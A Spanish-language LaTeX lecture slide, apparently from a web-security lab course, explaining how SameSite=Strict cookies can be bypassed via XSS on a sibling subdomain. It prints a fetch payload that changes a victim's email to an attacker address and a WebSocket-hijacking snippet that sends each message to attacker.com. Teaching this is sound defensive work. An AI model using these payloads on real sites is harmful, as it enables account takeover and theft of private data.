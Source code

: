 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{SameSite Strict --- Bypass con Dominio Hermano (Labs 70-71)}
\small
  \begin{itemize}
  \item CSRF
  \item Clave --- same-site $\neq$ same-origin
  \item SameSite opera sobre el eTLD+1 (dominio registrable): victim.com
  \item sub1.victim.com y sub2.victim.com son SAME-SITE entre sí.
  \item Una cookie SameSite=Strict de app.victim.com SE ENVÍA en peticiones desde blog.victim.com.
  \item $\rightarrow$ SameSite=Strict bloquea peticiones cross-site, pero NO cross-subdomain.
  \item Requisito --- XSS en cualquier subdominio hermano
  \item Encontrar XSS en chat.victim.com, blog.victim.com, static.victim.com\dots{}
  \item El JS ejecutado desde ahí puede hacer fetch a app.victim.com con las cookies.
  \item Flujo del ataque
  \item 1. Encontrar XSS almacenado en chat.victim.com.
  \item 2. Inyectar payload que haga fetch cross-subdomain:
  \item \cmd{fetch('https://app.victim.com/change-email', \{}
  \item \cmd{method: 'POST', credentials: 'include',}
  \item \cmd{body: 'email=attacker@evil.com',}
  \item \cmd{headers: \{'Content-Type': 'application/x-www-form-urlencoded'\}}
  \item \cmd{\});}
  \item 3. Víctima visita chat.victim.com $\rightarrow$ fetch a app.victim.com con sus cookies $\rightarrow$ CSRF.
  \item Variante --- Cross-Site WebSocket Hijacking (CSWSH)
  \item Si el dominio hermano usa WebSockets autenticados:
  \item \cmd{var ws = new WebSocket('wss://app.victim.com/chat');}
  \item \cmd{ws.onmessage = e =\textgreater{} fetch('https://attacker.com/?d=' + e.data);}
  \item Cualquier subdominio mal asegurado puede comprometer toda la app principal.
  \end{itemize}
\end{frame}
\end{document}
